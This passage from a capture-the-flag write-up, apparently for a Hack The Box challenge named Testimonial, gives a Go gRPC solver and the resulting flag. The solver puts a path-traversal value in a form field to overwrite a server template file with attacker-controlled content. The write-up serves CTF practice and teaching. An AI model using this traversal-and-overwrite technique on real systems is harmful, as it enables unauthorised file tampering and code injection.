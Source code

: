 Here is the solver:

``` go
package main

import (
	"context"
	"fmt"
	"log"
	"io/ioutil"

	"google.golang.org/grpc"
	"htbchal/pb"
)

func main() {
	testimonialData, err := ioutil.ReadFile("index.templ")
	if err != nil {
		log.Fatalf("failed to read file: %v", err)
	}
	
	conn, err := grpc.Dial("83.136.252.96:51204", grpc.WithInsecure())
	if err != nil {
		log.Fatalf("did not connect: %v", err)
	}
	defer conn.Close()
	c := pb.NewRickyServiceClient(conn)

	// Call SubmitTestimonial method.
	reply, err := c.SubmitTestimonial(context.Background(), &pb.TestimonialSubmission{
		Customer:    "../../view/home/index.templ",
		Testimonial: string(testimonialData),
	})
	if err != nil {
		log.Fatalf("could not submit: %v", err)
	}
	fmt.Println("Server Response:", reply.Message)
}
```

Save the solver file inside the challenge source code folder so that the pb library can be imported.
Run with the command "go run call.go".
Refresh the web page, and the flag will be obtained.

![Testimonial](/images/post/HTBAPOCALYPSE2024_testimonial1.png)

**Flag**: HTB{w34kly_t35t3d_t3mplate5}

**================================================================================================**

## **LockTalk - Web**
